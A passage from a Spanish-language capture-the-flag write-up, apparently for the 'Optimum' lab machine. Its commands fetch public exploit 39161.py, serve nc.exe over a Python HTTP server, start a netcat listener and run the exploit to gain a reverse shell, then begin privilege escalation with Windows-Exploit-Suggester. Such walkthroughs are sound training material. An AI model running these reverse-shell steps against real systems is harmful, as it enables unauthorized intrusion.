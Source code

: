 Vamos a ubicarnos en la carpeta `exploit` y a descargar el exploit `windows/remote/39161.py`.

```bash
cd ../exploit
searchsploit -m windows/remote/39161.py
```

Luego de revisar el exploit, debemos modificar las líneas 35 y 36, ingresando la IP de nuestra máquina y el puerto por el cual vamos a estar por escucha a través de la utilidad `nc`.

```bash
vim 39161.py
#MODIFICAR LINEA 35 Y 36
ip_addr = "10.10.14.2" #local IP address
local_port = "4564" # Local Port number
```

Para que el exploit funcione debemos copiar la utilidad `nc.exe` en la carpeta `exploit`.

```bash
locate nc.exe
cp /usr/share/sqlninja/apps/nc.exe .
```

Activamos un servidor local `http` con `python` por el puerto `80`, para que el exploit pueda consultar y cargar el `nc.exe` que copiamos anteriormente.

```bash
sudo python3 -m http.server 80
```

Generamos un listener con `rlwrap` para tener mayor estabilidad en la shell que vamos a obtener.

```bash
rlwrap nc -lvnp 4564
```

Procedemos a ejecutar el exploit junto con la IP víctima y el puerto.

```bash
python 39161.py 10.10.10.8 80
```

_NOTA: El exploit se debe ejecutar dos veces, la primera para cargar el binario `nc.exe` y la segunda para entablar una reverse shell_

<p>
<img src="/assets/images/optimum/03-page.png">
</p>

## ESCALADA DE PRIVILEGIOS

Ahora que nos encontramos dentro de la máquina víctima, vamos a realizar un método mínimamente ruidoso para la explotación de vulnerabilidades con exploits públicos, por lo que vamos a hacer uso de la utilidad [Windows-Exploit-Suggester](https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py) del github de [AonCyberLabs](https://github.com/AonCyberLabs).

```bash
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py
```
